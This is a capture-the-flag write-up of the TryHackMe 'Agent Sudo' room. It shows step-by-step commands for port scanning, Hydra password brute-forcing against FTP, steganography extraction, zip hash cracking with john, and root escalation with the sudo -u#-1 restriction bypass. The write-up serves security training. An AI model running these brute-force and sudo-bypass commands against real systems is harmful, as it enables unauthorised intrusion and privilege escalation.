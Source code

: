 ```yaml
---
title: "Agent Sudo"
date: 2024-07-02
draft: false
summary: "Writeup for Agent Sudo CTF challenge on TryHackMe."
tags: ["linux", "sudo", "stegonography", "hash crack"]
categories: ["writeups"]
series: []
showToc: true
cover:
  image: "https://cdn.ziomsec.com/agent_sudo/cover.png"
  caption: "Agent Sudo TryHackMe Challenge"
  alt: "Agent Sudo cover"
platform: "TryHackMe"
---
```


We found a secret server located under the deep sea. Our task is to hack inside the server and reveal the truth.
<!--more-->
To access the lab, click on the link given below:-
- https://tryhackme.com/r/room/agentsudoctf

## Recon

I performed an **nmap** aggressive scan to identify open ports and running services.

```shell
nmap -A TARGET -T4
```

| **Port** | **Service** |
| -------- | ----------- |
| 21       | ftp         |
| 22       | ssh         |
| 80       | http        |

![](https://cdn.ziomsec.com/agent_sudo/1.png)

## Initial Foothold

I accessed the web server using **curl** and received instructions on how to access the page.

```shell
curl http://TARGET
```

![](https://cdn.ziomsec.com/agent_sudo/2.png)

Since the message was written by *Agent R*, I tried using the nickname *R* to access the page and received a new message.

```shell
curl -A 'R' -L http://TARGET
```
> The **-L** flag in curl is used to follow redirects.

![](https://cdn.ziomsec.com/agent_sudo/3.png)

I tried accessing different pages by changing the alphabet and finally found a way to get in when I used **C**.

```shell
curl -A 'c' -L http://target
```

![](https://cdn.ziomsec.com/agent_sudo/4.png)

I found a username called *chris* so I attempted to crack its password for the other 2 services found running, namely *ftp* and *ssh*.

```shell
hydra -l 'chris' -P /usr/share/wordlists/rockyou.txt ftp://TARGET
```

![](https://cdn.ziomsec.com/agent_sudo/5.png)

| username | password |
| -------- | -------- |
| chris    | crystal  |

I then connected to the *ftp* server using these credentials.

```shell
ftp chris@TARGET
# enter password
```

![](https://cdn.ziomsec.com/agent_sudo/6.png)

I then downloaded all the files from the server.

```ftp
get To_agent3.txt
get cute-alien.jpg
get cutie.png
```

![](https://cdn.ziomsec.com/agent_sudo/7.png)

The txt file provided a hint for getting the credentials for *agent J*.

![](https://cdn.ziomsec.com/agent_sudo/8.png)

I then used **binwalk** to search for hidden files inside the images and found some in the *cutie.png*.

```shell
binwalk cutie.png
```

![](https://cdn.ziomsec.com/agent_sudo/9.png)

I then extracted the file from inside the image.

```shell
binwalk cutie.png -e --run-as=root
```

![](https://cdn.ziomsec.com/agent_sudo/10.png)

The hidden folder contained a zip file. However, this file was password protected - so I converted it to **john** crackable format and cracked its password using **john**.

![](https://cdn.ziomsec.com/agent_sudo/11.png)

```shell
zip2john 8702.zip > myzip.hash
john myzip.hash
```

![](https://cdn.ziomsec.com/agent_sudo/12.png)

I then extracted the files from the **zip** using this password.

```shell
7z e 8702.zip
# enter password
```

![](https://cdn.ziomsec.com/agent_sudo/13.png)

The zip contained a txt file, so I read that.

![](https://cdn.ziomsec.com/agent_sudo/14.png)

The text inside `''` looked encoded, so I visited **CyberChef** and decoded it
- https://gchq.github.io/CyberChef/ 

![](https://cdn.ziomsec.com/agent_sudo/15.png)

I used the **steghide** command with the password *Area51* to extract information from the JPEG image file.

```shell
steghide extract -sf cute-alien.jpg
```

![](https://cdn.ziomsec.com/agent_sudo/16.png)

I read the *message.txt* file and found the password of *james*.

![](https://cdn.ziomsec.com/agent_sudo/17.png)

I then logged as *james* via **SSH**.

```shell
ssh james@TARGET
```

![](https://cdn.ziomsec.com/agent_sudo/18.png)

I captured the first flag from my home directory.

![](https://cdn.ziomsec.com/agent_sudo/19.png)

There was another image along with my flag. I transferred it to my system using an **HTTP** server.

```shell
python3 -m http.server 8080
```

![](https://cdn.ziomsec.com/agent_sudo/20.png)

```shell
wget http://TARGET:8080/alien_autospy.jpg
```

![](https://cdn.ziomsec.com/agent_sudo/21.png)

I then conducted a Google reverse image search to gather more information about the image.

![](https://cdn.ziomsec.com/agent_sudo/22.png)

## Privilege Escalation

### Enumeration
I downloaded the **Linux Smart Enumeration** script and ran it on the target.
- https://github.com/diego-treitos/linux-smart-enumeration

![](https://cdn.ziomsec.com/agent_sudo/23.png)

![](https://cdn.ziomsec.com/agent_sudo/24.png)

![](https://cdn.ziomsec.com/agent_sudo/25.png)

The script identified a very interesting permission. We could run the `/bin/bash` shell as any user accept *root*.

![](https://cdn.ziomsec.com/agent_sudo/26.png)

I manually verified the same and checked my **sudo** version to search for ways to bypass this restriction.

```shell
sudo -l
sudo --version
```

![](https://cdn.ziomsec.com/agent_sudo/27.png)

### Bypassing Sudo Restriction
**Exploit-DB** contained a bypass that would work on my **sudo** version.

![](https://cdn.ziomsec.com/agent_sudo/28.png)

I read the **POC** and replicated it to escalate my privileges.

```
sudo -u#-1 /bin/bash
```

![](https://cdn.ziomsec.com/agent_sudo/29.png)

I captured the *root* flag and revealed Agent R's identity.

![](https://cdn.ziomsec.com/agent_sudo/30.png)

## Closure

Here's a summary of how I compromised **agent sudo**:
- I accessed the web server, which required a specific **user-agent** for entry.
- After gaining access, I conducted a **password spray** attack and discovered **chris's** **ftp** password.
- Downloading all files from the **ftp** server, I uncovered hidden messages and passwords within images.
- Using **john**, I cracked the password for *cutie.png* and obtained access to *cute-alien.jpeg*.
- Extracting files from *cute-alien.jpeg*, I found credentials for **ssh** login.
- With these credentials, I established initial access.
- Finally, identifying a vulnerability in **sudo**, I applied an exploit from **exploit-db** to gain **root** access.

That concludes my approach. Happy hacking!

---
